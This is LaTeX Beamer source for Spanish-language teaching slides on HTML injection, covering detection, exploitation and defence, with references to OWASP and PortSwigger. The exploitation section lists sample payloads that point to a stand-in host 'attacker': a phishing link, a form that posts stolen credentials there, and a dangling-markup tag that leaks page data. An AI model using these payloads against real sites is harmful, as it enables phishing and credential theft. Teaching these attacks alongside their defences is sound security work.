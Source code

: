 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{HTML Injection --- Explotación y defensa}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Detección
  \item \textless{}h1\textgreater{}test\textless{}/h1\textgreater{} o \textless{}b\textgreater{}test\textless{}/b\textgreater{}
  \item Si se renderiza como título/negrita $\rightarrow$ la entrada no se sanea.
  \item Explotación
  \item Enlace de phishing con apariencia legítima:
  \item \textless{}a href=\textquotedbl{}//attacker/login\textquotedbl{}\textgreater{}Verifica tu cuenta\textless{}/a\textgreater{}
  \item Form hijacking --- login falso que roba credenciales:
  \item \textless{}form action=//attacker/steal method=POST\textgreater{} \dots{} \textless{}/form\textgreater{}
  \item Dangling markup (exfiltración sin JS):
  \item \textless{}img src='//attacker/?h=
  \item Defensa
  \item Codificar la salida (HTML-encode) según el contexto; sanear
  \item con allowlist (DOMPurify); CSP. Nunca confiar en la entrada.
  \item PortSwigger Web Security Academy $\cdot$ DVWA para practicar
  \end{itemize}
\end{frame}

\begin{frame}{Referencias y práctica --- HTML Injection}
\footnotesize
  \begin{itemize}
  \item \href{https://owasp.org/www-community/attacks/HTML_Injection}{OWASP --- HTML Injection}
  \item \href{https://portswigger.net/web-security/cross-site-scripting}{PortSwigger --- del HTMLi al XSS}
  \end{itemize}
\end{frame}

\section{Cross-Site Scripting (XSS)}
\end{document}
